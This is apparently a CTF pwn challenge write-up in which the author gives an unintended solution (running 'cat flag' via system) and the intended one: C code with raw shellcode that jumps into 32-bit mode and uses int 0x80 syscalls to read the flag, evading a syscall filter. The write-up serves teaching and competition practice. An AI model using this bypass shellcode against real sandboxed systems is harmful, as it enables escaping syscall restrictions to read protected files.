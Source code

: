[中文](./README_zh.md) [English](./README.md)

[attachment.zip](./attachment.zip)

Sorry first to everyone, this pwn is not well written. 

The intention is to code audit and find the bug. But the library's bugs are more than expected...

The following is an unexpected solution

```
#include <stdio.h>

Int main()
{

    System("cat flag");
}
```

The following is an expected solution, the basic idea is to use 32-bit syscall to bypass the limit and read the flag.

```
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/mman.h> /* mmap() is defined in this header */
#include <fcntl.h>
#include <string.h>
unsigned char shellcode[]= \
"\x6a\x01\xfe\x0c\x24\x68\x66\x6c\x61\x67\x89\xe3\x31\xc9\x31\xd2\x6a\x05\x58\xcd\x80\x68\x00\x38\x12\x00\x59\x89\xc3\xba\x00\x01\x00\x00\x6a\x03\x58\xcd\x80\xbb\x01\x00\x00\x00\xb9\x00\x38\x12\x00\xba\x00\x01\x00\x00\x6a\x04\x58\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80";
/*
push   0x1
dec    BYTE PTR [esp]
push   0x67616c66
mov    ebx,esp
xor    ecx,ecx
xor    edx,edx
push   0x5
pop    eax
int    0x80
push   0x123800
pop    ecx
mov    ebx,eax
mov    edx,0x100
push   0x3
pop    eax
int    0x80
mov    ebx,0x1
mov    ecx,0x123800
mov    edx,0x100
push   0x4
pop    eax
int    0x80
mov    eax,0x1
int    0x80
*/

unsigned char bypass[] = \
"\x48\x31\xe4\xbc\x00\x34\x12\x00\x67\xc7\x44\x24\x04\x23\x00\x00\x00\x67\xc7\x04\x24\x00\x30\x12\x00\xcb";
/*
xor rsp,rsp
mov esp,0x123400
mov    DWORD PTR [esp+0x4],0x23
mov    DWORD PTR [esp],0x123000
retf
*/

int main()
{
    char* p1=mmap(0, 0x1000, 7, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    char* p2=mmap((void*)0x123000,0x1000,7,MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    memcpy(p1,bypass,sizeof(bypass));
    memcpy(p2,shellcode,sizeof(shellcode));
    int (*ret)() = (int(*)())p1;
    ret();
    return 0;
}
```
